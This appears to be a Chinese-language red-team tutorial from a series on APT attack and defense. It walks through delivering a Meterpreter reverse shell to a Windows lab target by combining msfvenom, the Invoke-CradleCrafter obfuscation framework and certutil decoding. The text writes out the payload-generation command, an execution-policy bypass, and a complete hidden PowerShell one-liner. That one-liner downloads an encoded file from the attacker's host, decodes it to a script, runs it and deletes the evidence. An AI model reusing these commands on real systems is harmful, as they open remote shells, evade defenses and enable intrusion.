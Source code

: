 专注APT攻击与防御
https://micropoor.blogspot.com/

第八季中提到了certutil的加密与解密。
`C:\>certutil -encode c:\downfile.vbs downfile.bat`，而配合powershell的内存加载，则可把certutil发挥更强大。

**靶机：windows 2012**

而今天需要的是一款powershell的混淆框架的配合
https://github.com/danielbohannon/Invoke-CradleCrafter

使用方法：
```
Import-Module ./Invoke-CradleCrafter.psd1 Invoke-CradleCrafter
```
![](media/c62807cec766f0f6c92c2d821cd6ede3.jpg)

![](media/5fd8400f05ad1fe156649bb7d4ab2726.jpg)

如果在加载powershell 脚本的时候提示：**powershell
进行数字签运行该脚本。**
则先执行：`set-executionpolicy Bypass`

生成payload：（有关生成payload，会在未来的系列中讲到）

`root@John:/tmp# msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐e cmd/powershell_base64 ‐f psh ‐o Micropoor.txt`

![](media/316a532d526b20050d34d02f8f06e952.jpg)

![](media/cfa22fb95c6b008829035e91928f47db.jpg)

**启动apache：**
![](media/d34911ee8f5ed23aaef4fe39846d7c4d.jpg)

**powershell框架设置：**

SET URL http://192.168.1.5/Micropoor.txt
![](media/bc3142653214ae8fd411b32efcdb77a8.jpg)

**MEMORY**
![](media/62d726b8feae58ada003965ac15cfe4a.jpg)

**CERTUTIL**
![](media/b700f3bfebafc44073df52b62d79d73c.jpg)

**ALL**
![](media/9b29ae29a5bf7fd27b9ded5b889844c4.jpg)

**1**
![](media/f14a65e3707c230527b14312400969e0.jpg)

**混淆内容保存txt，后进行encode**
![](media/17b242fcc60d1fa5eb54d8f2c6268331.jpg)

把cer.cer 与Micropoo.txt 放置同一目录下。
**目标机执行：**
```
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\\cer.cer (New‐Object Net.WebClient).DownloadString('http://192.168.1.5/cer.cer'); certutil ‐decode %APPDATA%\cer.cer %APPDATA%\stage.ps1 & start /b cmd /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\cer.cer
```

>   Micropoor
